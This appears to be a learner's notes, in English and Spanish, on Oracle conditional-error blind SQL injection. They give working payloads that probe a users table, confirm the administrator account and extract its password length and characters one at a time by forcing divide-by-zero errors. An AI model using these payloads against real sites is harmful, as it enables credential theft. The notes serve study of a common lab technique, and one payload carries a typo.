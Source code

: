# SQLI-Conditional Error on oracle # 

on this way I do not recive error.
```
'||(select '' from dual)||'
```
Now is different of the other. 

We are limiting the rows to one , on this way we can know if the users table exists
```
'||(select '' from users where rownum=1)||'
```

to char (**Convierte una fecha a una cadena o un número con el formato especificado**.) on my query to_char(1/0) will give a conflict.
The query starts right to left, so first searchs the user admin and before other

```
'||(select case when (1=1) then to_char(1/0) else '' end from users where username='administrator')||'
```

On this sentence, the 1=2 makes ignore the to_char (1/0) doesnt go to the "then", it goes to the "else" ''

```
'||(select case when (1=2) then to_char(1/0) else '' end from users where username='administrator')||'
```

so, if the user doesn't exist we do not get the error, remember first reads from the query
*from users where username='administrat*

```
'||(select case when (1=1) then to_char(1/0) else '' end from users where username='administrat')||'
```
Now , if we want to watch the lenght of the password, we must do this. We recive a error, and everything is ok...
```
'||(select case when (1=1) then to_char(1/0) else '' end from users where username='administrator' and lenght(password)>=20)||'
```

if we put this we dont recive a error , so the password doesnt have lenght of 21
```
'||(select case when (1=1) then to_char(1/0) else '' end from users where username='administrator' and length(password)>=21)||'
```
now, if we want to guess the password, by characters, we must do this, in oracle is substr. (We test it with the username.)

If we recive a error it is right
else it is not true

O SEA, SI RECIBO UN ERROR EL CARACTER A ES EL DE LA CONTRASEÑA
SI RECIBO OTRA COSA NO ES ASI
```
'||(select case when substr(username,1,1)='a' then to_char(1/0) else '' end from users where username='administrator')||'
```
Now we are going to do this with the item "password"
